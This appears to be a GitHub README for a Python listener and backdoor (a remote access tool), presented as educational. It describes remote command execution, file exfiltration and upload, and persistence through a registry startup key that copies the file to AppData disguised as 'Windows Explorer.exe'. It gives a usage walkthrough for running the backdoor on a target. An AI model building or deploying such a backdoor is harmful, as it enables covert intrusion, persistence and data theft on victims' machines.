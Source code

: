 # Listener and Backdoor Python Scripts

These scripts demonstrate a listener and backdoor implementation for educational purposes. They are designed to illustrate basic concepts of network communication, remote file handling, and command execution in Python.

## **DISCLAIMER**

These scripts are provided strictly for **educational and ethical purposes**. Unauthorized use of these tools against systems without explicit permission is illegal and unethical. Ensure compliance with local laws and use them responsibly.

---

## **Listener Script**

### **Description**
The listener script acts as a server to establish a connection with a backdoor client. It allows the user to remotely execute commands, upload/download files, and manage the target system.

### **Features**
- Establishes a connection with a backdoor.
- Reliable communication using JSON.
- Remote command execution.
- File upload and download support.
- Error handling for robust execution.

### **Usage**
1. Set the target IP and PORT in the script:
   ```python
   my_listener = Listener("<LISTENER_IP>", <PORT>)
   my_listener.run()
   ```
2. Run the script on your machine.
3. Use the command prompt to interact with the connected backdoor.

### **Commands**
- `download <file_path>`: Downloads a file from the target system.
- `upload <file_path>`: Uploads a file to the target system.
- `cd <directory>`: Changes the working directory on the target system.
- `exit`: Closes the connection.

---

## **Backdoor Script**

### **Description**
The backdoor script acts as a client that connects to the listener. It enables the remote execution of commands, file handling, and directory management.

### **Features**
- Connects to the listener.
- Becomes persistent by adding itself to the system startup registry.
- Executes system commands.
- File upload and download support.
- Directory navigation.
- Robust error handling.

### **Usage**
1. Set the listener's IP and PORT in the script:
   ```python
   my_backdoor = Backdoor("<LISTENER_IP>", <PORT>)
   my_backdoor.run()
   ```
2. Run the script on the target system.

### **Persistence**
The backdoor script automatically copies itself to the `AppData` directory and creates a registry key for persistence:
```python
evil_file_location = os.environ["appdata"] + "\\Windows Explorer.exe"
```

---

## **Prerequisites**
- Python 3.x installed on both machines.
- Modules: `socket`, `json`, `base64`, `sys`, `os`, `subprocess`, `shutil`.

### **Installation**
1. Clone this repository or download the scripts.
2. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```

---

## **Example Interaction**

1. **Start the Listener**
   ```bash
   python listener.py
   ```
2. **Run the Backdoor on the Target**
   ```bash
   python backdoor.py
   ```
3. **Execute Commands**
   - Change directory:
     ```
     >> cd /target/path
     ```
   - Download a file:
     ```
     >> download secret.txt
     ```
   - Upload a file:
     ```
     >> upload payload.exe
     ```
   - Exit the session:
     ```
     >> exit
     ```

---

## **Security Notes**

- These scripts are potentially harmful and should only be used on systems you own or have explicit permission to test.
- Modify the scripts for legal use cases such as penetration testing or educational demonstrations.
- Never execute unknown or untrusted scripts on your system.

---

## **License**

MIT License. See `LICENSE` for more details.

---

For further learning, explore secure coding practices and ethical hacking courses.

